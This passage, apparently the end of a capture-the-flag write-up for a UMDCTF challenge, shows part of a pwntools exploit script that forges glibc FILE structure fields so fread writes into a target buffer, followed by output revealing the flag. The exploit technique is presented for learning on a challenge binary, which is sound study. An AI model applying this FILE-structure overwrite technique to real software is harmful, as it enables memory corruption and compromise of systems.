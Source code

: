 ```python
payload += p64(0)                      # _IO_write base        # set writes to null because we are not using them
payload += p64(0)                      # _IO_write_ptr
payload += p64(0)                      # _IO_write_end  
payload += p64(aura_addr)              # _IO_buf_base      # start of address to write to
payload += p64(aura_addr + 0x10)       # _IO_base_end      # end of address to write to 
payload += p64(0) * 8                  # int _fileno somewhere here, set to 0 to force fread to read from stdin
payload += p64(0)                      #_IO_lock (after int _fileno)

p.sendline(payload)

# our stdin (fread uses this to write into aura)
p.sendline(b'A' * 100)                 # if you send as little as 16 you can read the flag 

p.interactive()
```
- xpl.py 


```
[*] Switching to interactive mode
UMDCTF{+100aur4}
\x03
```
- 🥶🥶🥶


Thanks for reading :3 

